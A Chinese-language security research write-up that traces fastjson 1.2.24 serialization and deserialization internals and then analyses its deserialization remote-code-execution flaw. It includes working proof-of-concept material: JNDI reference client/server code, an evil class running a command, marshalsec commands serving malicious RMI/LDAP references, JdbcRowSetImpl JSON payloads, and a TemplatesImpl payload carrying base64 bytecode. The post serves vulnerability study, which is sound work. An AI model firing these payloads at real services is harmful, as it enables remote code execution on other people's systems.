

## 关于Java版本

Java8 -> JDK 1.8.0_241-b07 -> JDK 8u241

## 从xxlengend的payload说起

> 本文在以下环境中进行实验
>
> java version "1.8.0_192"
> Java(TM) SE Runtime Environment (build 1.8.0_192-b12)
> Java HotSpot(TM) 64-Bit Server VM (build 25.192-b12, mixed mode)

如何正常编译：

1.首先注释掉所有的setAutoTypeSupport函数，1.2.24版本中没有这个方法


2.如果用的是Mac的话，记得把路径修改成斜线（原代码中是反斜线，这样会找不到对应的路径）

3.修改Test.java文件中要执行的命令


4.编译选项要选择Poc


此时即可触发第一种payload


## 使用fastjson进行序列化

```java
public class User {


    public String name;
    private int age;
    private Boolean sex;
    private Properties prop = new Properties();
    public User(){
        System.out.println("User() is called");
    }
    public void setAge(int age){
        System.out.println("setAge() is called");
        this.age = age;
    }
    public Boolean getSex(){
        System.out.println("getGrade() is called");
        return this.sex;
    }
    public Properties getProp(){
        System.out.println("getProp() is called");
        return this.prop;
    }
    public String toString(){
        String s = "[User Object] name=" + this.name + ", age=" + this.age + ", prop=" + this.prop + ", sex=" + this.sex;
        return s;
    }
    public static void main(String[] args){
        String jsonstr = "{\"@type\":\"fastjsontest.User\", \"name\":\"Tom\", \"age\": 13, \"prop\": {}, \"sex\": 1}";


        User user = new User();
        user.name = "anakin";
        user.age = 25;
        user.sex = true;
        user.prop.setProperty("foo", "bar");


        String jsonString = JSON.toJSONString(user);
        System.out.println(jsonString);


//        Object obj = JSON.parseObject(jsonstr, User.class);
//        System.out.println(obj);
    }
}
```

下面调试一下几个关键的过程，fastjson版本为1.2.24

将一个javabean序列化成JSONString的过程如下：

1.获取SerializeWriter，这一过程中会对需要序列化的类进行分析，如果不在fastjson默认的序列化器中，将会根据javabean的信息创建一个。这一过程中的关键函数是

com/alibaba/fastjson/serializer/SerializeConfig.java中的getObjectWriter，在阅读源码的过程中也可以看到fastjson对常见的类都有相应的序列化器。（例如Map, List, Collection Date…)


一系列的判断之后，如果我们需要序列化的javabean没有在fastjson已知的列表里，如果开启了create选项（默认开启的），就会根据javabean自身的信息来构建序列化器


继续向下跟进，会来到TypeUtils.buildBeanInfo和createJavaBeanSerializer，首先会对javabean的信息进行扫描（出于性能考虑），然后按照某种规则对javabean进行序列化，这个我们继续看

对javabean进行扫描的过程如下：

1.利用反射机制获取javabean的所有属性，如果有继承关系则继续扫描父类的属性（无继承关系的话父类是Object.class）


2.对扫描出的属性进行分析，这里处理的函数是computeGetters（com/alibaba/fastjson/util/TypeUtils.java）

利用反射机制取出class中所有的方法


符合以下条件的方法会被处理：

* 不是静态方法
* 返回值不为void
* 不返回ClassLoader
* 方法非getMetaClass
* 以get开头，方法名大于3，且get后的第一个字母大写（即符合javabean中getter规范的方法）

处理方法为将getter方法与属性对应起来，存放到fieldInfo对象中，再放到fieldInfoMap里


3.当完成对getter的扫描后，会继续获取类的public属性

> clazz.getFields()获取的是public属性；clazz.getDeclaredFields()获取的是所有属性

这里还会将public属性也存放到ArrayList中

可以说序列化过程中需要处理的也就是在fieldInfoList中存放的各个属性了，其他的属性不会继续在下面的过程中处理。扫描后的信息会存放在SerializeBeanInfo类


接下来会进入serializer创建过程，这一过程是字节码操作

也由于这一过程都是字节码操作，无法继续跟进调试


刚才过程中创建出的序列化器会在这里使用，write函数会对根据刚才规则筛选出的几个属性进行序列化操作

可以从变量里看出逐步的在写入JSONString


最终的结果为：
```json
{"name":"anakin","prop":{"foo":"bar"},"sex":true}
```

## 使用fastjson进行反序列化

反序列化过程是将JSONString还原回对象的过程，例如：

Object obj = JSON.parseObject(jsonstr, User.class);

这里涉及到两个API，JSON.parse()和JSON.parseObject。在漏洞利用过程中这两个方法会有些许区别

先来看下parseObject

经过几个封装的方法后会进入DefaultJSONParser中


在DefaultJSONParser构造过程中可以发现，fastjson对两种符号存在特殊处理


在parser构建过程中的一个细节，会检查clazz是否在denyList里，这里是1.2.24版本（也就是在反序列化漏洞爆发之前的版本）denyList里存放的是java.lang.Thread类（com/alibaba/fastjson/parser/ParserConfig.java）


和序列化过程一样，在构造反序列化的parser时会先扫描是否反序列化的是已知的类，如果没有会创建一个新的反序列化器


这里的逻辑和createJavaBeanSerializer有些差异，继续跟进下看看：


com/alibaba/fastjson/util/JavaBeanInfo.java 这里是反序列化的行为。反序列化过程中除了调用setter还会调用getter

对于setter方法，需要符合以下条件：

1. 方法名大于3
2. 非静态方法
3. 返回值为空，且返回值不能是声明自身的类
4. 入参只有1个
5. 以set开始，且第四个字母是大写（这里在编码的时候考虑了只有setXXX方法，但是找不到声明对应的属性的情况，例如属性名是Boolean isRight = True）


在获取所有的setter方法之后，会对类里public属性进行扫描


对于不在fieldList里的public属性，会手动添加到fieldList中

在处理完setter方法后，会继续对getter方法进行处理，重点来了。符合以下规则的getter方法会被特殊处理：

1. 方法名大于3
2. 非静态方法
3. 以get开始，且第四个字母大写
4. 是Collection||Map||AtomicBoolean||AtomicInteger||AtomicLong中某个类的子类
5. 有getter方法但没有setter方法（如果有setter方法，在上面就会被处理了）

最终在反序列化的时候会调用这个getter方法


其实这里是为了兼容几种数据类型的写法，例如getProp方法其实会返回一个Properties对象，这里fastjson替用户封装了一步，直接写getProp也能正常的向里面放数据。

lexer.token


反序列化过程在com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java中，使用lexer对input进行扫描，按JSON的语法进行对象还原


charArrayCompare方法写的有些迷惑，从这里看它是严格按照顺序来匹配的，从第一个键值对开始，位置不对则不匹配


关键点：@type，这里会判断type和当前反序列化的类是否是相同的


从JSONString中解析出一个值后，会使用setValue方法去给对象赋值


此时其实已经创建了对象，无参构造器已经被调用了


准确来说是在com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java createInstance这里创建的


其实setValue方法在实现时，是在fieldInfo对象中取出了里面的setter方法，然后通过调用setter方法为javabean赋值

## fastjson 1.2.24反序列化漏洞

理清序列化和反序列化过程之后再来看这个漏洞的几种不同的payload

### 铺垫：JNDI注入

关于JNDI相关的攻击方式，可以参考pwntester 2016年的blackhat演讲，[材料](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

JNDI -> Java Naming and Directory Interface

Naming Service: key -> value; key -> object, such as DNS and file systems

Directory Service: Special type of Naming Service, that allows storing and finding of "directory objects". A directory object differs from generic objects in that it's possible to associate attrbutes to the object. (LDAP)

JNDI是一套接口，类似于索引中心，允许客户端通过name发现和查找数据以及对象。这些对象可以存储在不同的服务中，例如远程方法调用（RMI），通用对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。

JNDI可以：

1. 直接绑定远程对象
2. 绑定Reference

如果绑定Reference，为什么恶意代码会在Client执行，而非攻击者的Server执行？因为在Server绑定Reference时，这个恶意对象是不在Server上的，Reference指向某个地址，Client会去这个地址取出对象并在Client实例化


既然是索引中心，那么JNDI就要分为client（查询）和server（注册资源）看一个最简单的demo：

Client:

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;

public class Client {
    public static void main(String[] args) throws Exception{
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        System.getProperties().setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.getProperties().setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        String uri = "rmi://127.0.0.1:1099/aa";
        Context ctx = new InitialContext(env);
        ctx.lookup(uri);
    }
}

```

Server:

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference aa = new Reference("ExecTest", "ExecTest", "http://127.0.0.1:8081");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        registry.bind("aa", refObjWrapper);
    }
}
```

EvilClass:

```java
import java.io.IOException;

public class ExecTest {
    public ExecTest() throws IOException {
        final Process process = Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
    }
}
```

版本问题：




为什么会造成命令执行？答案在Client的lookup方法中


跟进后发现是接口，`command+option+B`查找实现，可以从报错的调用栈打印看到具体的实现类是哪一个

```
Exception in thread "main" javax.naming.NamingException [Root exception is java.lang.ClassCastException: ExecTest cannot be cast to javax.naming.spi.ObjectFactory]
	at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:507)
	at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at Client.main(Client.java:9)
Caused by: java.lang.ClassCastException: ExecTest cannot be cast to javax.naming.spi.ObjectFactory
	at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)
	at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
	at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:499)
	... 4 more
```

最终发现在`com/sun/jndi/rmi/registry/RegistryContext.java`中的`decodeObject`中有创建实例的操作

```java
private Object decodeObject(Remote var1, Name var2) throws NamingException {
        try {
            Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
            Reference var8 = null;
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } else if (var3 instanceof Referenceable) {
                var8 = ((Referenceable)((Referenceable)var3)).getReference();
            }

            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
        } catch (NamingException var5) {
            throw var5;
        } catch (RemoteException var6) {
            throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
        } catch (Exception var7) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var7);
            throw var4;
        }
    }
```

跟进到`getObjectInstance`方法，这里代码执行的点有两处

```java
// NamingManager.class
if (ref != null) {
            String f = ref.getFactoryClassName();
            if (f != null) {
                // if reference identifies a factory, use exclusively

              	// 代码执行，构造器和静态方法会被执行
                factory = getObjectFactoryFromReference(ref, f);
                if (factory != null) {
                  	// 代码执行，当复写getObjectInstance方法时这里会执行
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
                // No factory found, so return original refInfo.
                // Will reach this point if factory class is not in
                // class path and reference does not contain a URL for it
                return refInfo;

            } else {
                // if reference has no factory, check for addresses
                // containing URLs

                answer = processURLAddrs(ref, name, nameCtx, environment);
                if (answer != null) {
                    return answer;
                }
            }
        }
```


JNDI的一个特性是协议动态转换，即使client在初始化时使用的上下文环境为RMI，在lookup方法中传入LDAP协议的URI也能支持，程序会自动切换到LDAP的上下文中。

可以使用`marshalsec`工具快速开启RMI/LDAP服务

```java
// client
Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        System.getProperties().setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.getProperties().setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        String uri = "ldap://localhost:1389/obj";
//        String uri = "rmi://127.0.0.1:1389/aa";
        Context ctx = new InitialContext(env);
        ctx.lookup(uri);
```

```bash
// hacker marshalsec service
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/\#ExecTest
Listening on 0.0.0.0:1389
Send LDAP reference result for obj redirecting to http://127.0.0.1:8081/ExecTest.class
```

该命令会在1389端口开启LDAP，在client查询`ldap://localhost:1389/obj`时返回`http://127.0.0.1:8081/ExecTest.class`

### RMI Remote Object Payload

kingx提到攻击者可以实现一个RMI恶意远程对象并绑定到RMI Registry上，如果client在反序列化时发现一个对象，则先会到CLASSPATH寻找相应的类，如果找不到类定义时会根据codebase去下载这个类的class，然后动态加载。（以下一段摘自[这里](https://xz.aliyun.com/t/6660)）

这种方式局限很大，因此并不是很常见，限制条件为：

1. 安装并配置了SecurityManager
2. Java版本低于7u21, 6u45或者设置了java.rmi.server.useCodebaseOnly=false

实验一下：

```java
// server的远程接口

```


### RMI JNDI Reference Payload

使用marshalsec开启RMI服务

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8081/\#ExecTest
```

Payload:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/ExexTest","autoCommit":true}
```

RMI和LDAP的利用类是com.sun.rowset.JdbcRowSetImpl，刚才已经提到过，在设置`autoCommit`属性并进行反序列化时，fastjson会调用其setter方法`setAutoCommit`

```java
public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }

    }
```

这里会触发`this.connect()`方法

```java
private Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
            } catch (NamingException var3) {
                throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
            }
        } else {
            return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
        }
    }
```

继续跟进`lookup()`方法，后续代码会根据传入URI的scheme判断使用何种上下文环境继续解析

```java
protected Context getURLOrDefaultInitCtx(String name)
        throws NamingException {
        if (NamingManager.hasInitialContextFactoryBuilder()) {
            return getDefaultInitCtx();
        }
        String scheme = getURLScheme(name);
        if (scheme != null) {
            Context ctx = NamingManager.getURLContext(scheme, myProps);
            if (ctx != null) {
                return ctx;
            }
        }
        return getDefaultInitCtx();
    }
```

由于传入的是RMI协议，继续解析的过程到达`com/sun/jndi/toolkit/url/GenericURLContext.class`，这样就形成了JNDI注入

### LDAP JNDI Reference Payload

使用marshalsec开启LDAP服务

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/\#ExecTest
```

payload如下：

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/Exploit", "autoCommit":true}
```

这个利用方案与RMI相同，由于JNDI有动态协议切换的特性，所以我们传入LDAP协议的payload也是可以的。而且ldap的适用性更广，放一张2016年的blackhat演讲，LDAP在


### 插曲：JDK版本对RMI和LDAP的限制

From [smi1e]([https://www.smi1e.top/java%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%AD%A6%E4%B9%A0%E4%B9%8Bjndi%E6%B3%A8%E5%85%A5/](https://www.smi1e.top/java代码审计学习之jndi注入/))

> 在`JDK 6u132`, `JDK 7u122`, `JDK 8u113` 中JNDI 限制了`Naming/Directory`服务中`JNDI Reference`远程加载`Object Factory`类的特性。系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase` 的默认值变为`false`，即默认不允许从远程的`Codebase`加载`Reference`工厂类。
>
> LDAP服务的Reference远程加载Factory类不受上一点中`com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`等属性的限制，所以适用范围更广。不过在2018年10月，Java最终也修复了这个利用点，对LDAP Reference远程工厂类的加载增加了限制，在`Oracle JDK` `11.0.1`、`8u191`、`7u201`、`6u211`之后 `com.sun.jndi.ldap.object.trustURLCodebase` 属性的默认值被调整为`false`

### RMI BeanFactory

RMI禁用了远程加载类后，新的POC模式出现了，使用RMI+本地加载类的方式进行绕过，例如BeanFactory类.

当服务端使用了高版本的JDK（9u191以上版本），默认状态下不能在远程加载恶意的Factory，但如果在本地有能够利用的Factory就依然可以走`getObjectInstance()`的分支实现命令执行

一个满足条件并且被广泛使用的类是`org.apache.naming.factory.BeanFactory`，在Tomcat的依赖包中


### LDAP Java Serialized Data

### POC5：特殊类com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

```json
// payload
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADEANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA1McGVyc29uL1Rlc3Q7AQAKRXhjZXB0aW9ucwcALAEACXRyYW5zZm9ybQEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALQEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAF0BwAuAQAKU291cmNlRmlsZQEACVRlc3QuamF2YQwACAAJBwAvDAAwADEBAD0vU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcC9Db250ZW50cy9NYWNPUy9DYWxjdWxhdG9yDAAyADMBAAtwZXJzb24vVGVzdAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAsAAAAOAAMAAAAPAAQAEAANABEADAAAAAwAAQAAAA4ADQAOAAAADwAAAAQAAQAQAAEAEQASAAEACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAAVAAwAAAAqAAQAAAABAA0ADgAAAAAAAQATABQAAQAAAAEAFQAWAAIAAAABABcAGAADAAEAEQAZAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAaAAwAAAAgAAMAAAABAA0ADgAAAAAAAQATABQAAQAAAAEAGgAbAAIADwAAAAQAAQAcAAkAHQAeAAIACgAAAEEAAgACAAAACbsABVm3AAZMsQAAAAIACwAAAAoAAgAAAB0ACAAeAAwAAAAWAAIAAAAJAB8AIAAAAAgAAQAhAA4AAQAPAAAABAABACIAAQAjAAAAAgAk"],'_name':'a.b','_tfactory':{ },"_outputProperties":{}}
```

利用`com.sun.org.apache.xalan.internal.xsltc.trax.TemplateImpl`类实现的命令执行

## Reference

* https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html
* [http://xxlegend.com/2017/12/06/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/12/06/基于JdbcRowSetImpl的Fastjson RCE PoC构造与分析/)
* [https://p0rz9.github.io/2019/05/05/JNDI%E6%B3%A8%E5%85%A5%E5%85%A5%E9%97%A8/](https://p0rz9.github.io/2019/05/05/JNDI注入入门/)
* [https://p0rz9.github.io/2019/06/02/Fatsjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%90%8E%E7%BB%AD/](https://p0rz9.github.io/2019/06/02/Fatsjson反序列化后续/)
* https://rickgray.me/2016/08/19/jndi-injection-from-theory-to-apply-blackhat-review/
* https://kingx.me/Exploit-Java-Deserialization-with-RMI.html
* [https://www.smi1e.top/java%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%AD%A6%E4%B9%A0%E4%B9%8Bjndi%E6%B3%A8%E5%85%A5/](https://www.smi1e.top/java代码审计学习之jndi注入/)
* https://xz.aliyun.com/t/6633#toc-5
* https://github.com/mbechler/marshalsec
* https://paper.seebug.org/417/
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf